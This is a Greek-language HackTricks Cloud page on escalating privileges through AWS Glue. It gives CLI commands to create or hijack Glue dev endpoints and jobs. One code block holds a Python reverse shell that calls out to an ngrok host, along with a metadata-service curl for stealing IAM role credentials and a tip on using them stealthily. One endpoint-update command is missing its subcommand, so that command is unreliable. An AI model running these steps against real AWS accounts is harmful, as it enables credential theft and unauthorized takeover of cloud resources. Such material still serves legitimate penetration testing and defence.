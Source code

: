 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Οι χρήστες με αυτές τις άδειες μπορούν **να ρυθμίσουν ένα νέο AWS Glue development endpoint**, **αναθέτοντας έναν υπάρχοντα ρόλο υπηρεσίας που μπορεί να αναληφθεί από το Glue** με συγκεκριμένες άδειες σε αυτό το endpoint.

Μετά τη ρύθμιση, ο **επιτιθέμενος μπορεί να SSH στο instance του endpoint**, και να κλέψει τα IAM credentials του ανατεθέντος ρόλου:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Για σκοπούς μυστικότητας, συνιστάται η χρήση των IAM διαπιστευτηρίων από μέσα στην εικονική μηχανή Glue.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που έχει καθοριστεί.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Χρήστες με αυτή την άδεια μπορούν να **αλλάξουν το υπάρχον κλειδί SSH** του σημείου ανάπτυξης Glue, **επιτρέποντας την πρόσβαση μέσω SSH σε αυτό**. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί εντολές με τα δικαιώματα του συνδεδεμένου ρόλου του σημείου ανάπτυξης:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που χρησιμοποιείται.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Χρήστες με **`iam:PassRole`** σε συνδυασμό με είτε **`glue:CreateJob` είτε `glue:UpdateJob`**, και είτε **`glue:StartJobRun` είτε `glue:CreateTrigger`** μπορούν να **δημιουργήσουν ή να ενημερώσουν μια εργασία AWS Glue**, συνδέοντας οποιονδήποτε **λογαριασμό υπηρεσίας Glue**, και να ξεκινήσουν την εκτέλεση της εργασίας. Οι δυνατότητες της εργασίας περιλαμβάνουν την εκτέλεση αυθαίρετου Python κώδικα, ο οποίος μπορεί να εκμεταλλευτεί για να εγκαταστήσει ένα reverse shell. Αυτό το reverse shell μπορεί στη συνέχεια να χρησιμοποιηθεί για να εξάγει τα **διαπιστευτήρια IAM** του ρόλου που συνδέεται με την εργασία Glue, οδηγώντας σε πιθανή μη εξουσιοδοτημένη πρόσβαση ή ενέργειες με βάση τις άδειες αυτού του ρόλου:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που καθορίζεται.

### `glue:UpdateJob`

Μόνο με την άδεια ενημέρωσης, ένας επιτιθέμενος θα μπορούσε να κλέψει τα IAM Credentials του ήδη συνημμένου ρόλου.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας glue που είναι συνημμένος.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
